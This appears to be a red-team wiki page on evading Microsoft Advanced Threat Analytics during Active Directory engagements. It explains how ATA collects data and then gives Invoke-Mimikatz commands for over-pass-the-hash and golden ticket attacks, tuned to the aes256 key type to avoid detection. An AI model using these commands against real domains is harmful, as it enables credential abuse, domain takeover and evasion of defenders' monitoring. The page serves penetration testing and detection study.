 ```yaml
---
title: ATA Evasion
category: Post Exploitation
order: 8
---
```


Advanced Threat Analytics (ATA) is an on-premises platform that helps protect your enterprise from multiple types of advanced targeted cyber attacks and insider threats.

# How ATA works

ATA leverages a proprietary network parsing engine to capture and parse network traffic of multiple protocols (such as Kerberos, DNS, RPC, NTLM, and others) for authentication, authorization, and information gathering. This information is collected by ATA via:

* Port mirroring from Domain Controllers and DNS servers to the ATA Gateway and/or
* Deploying an ATA Lightweight Gateway (LGW) directly on Domain Controllers

ATA takes information from multiple data-sources, such as logs and events in your network, to learn the behavior of users and other entities in the organization, and builds a behavioral profile about them. ATA can receive events and logs from:

* SIEM Integration
* Windows Event Forwarding (WEF)
* Directly from the Windows Event Collector (for the Lightweight Gateway)
* For more information on ATA architecture, see ATA Architecture.

# Evading ATA

It is posible to evade or make less noise while our red teams engagements.

## Over-Pass-The-Hash

There is a different in encryption type for timestamp between a normal `krb-as-req` and one using the Over-Pass-the-hash `krb-as-req`:

* Over-Pass-the-hash krb-as-req etype flag: `eTYPE-ARCFOUR-HMAC-MD5 (23)`
* Normal krb-as-req etype flag: `eTYPE-AES256-CTS-HMAC-SHA1-96 (18)`

To reduce the cahnces of detection use `aes256`, `aes128` and `NTLM(RC4)` together.

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /usr:Administrator /domain:corp.local /aes256:<aes256> /aes128:<aes128> /ntlm:<ntlmhash> /run:powershell.exe"'
```

## Golden Ticket

To prevent beeing detected of ATA use the `aes256` keys.

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:corp.local /sid:S-1-5-21-268341927-4156873456-1784235843 /krbtgt:a9b30e5b0dc865eadcea9411e4ade72d /id:500 /groups:513 /startoffset:0 /endin:600 /renewmax:10080 /aes256:<aes256keysofkrbtgt> /ptt"'
```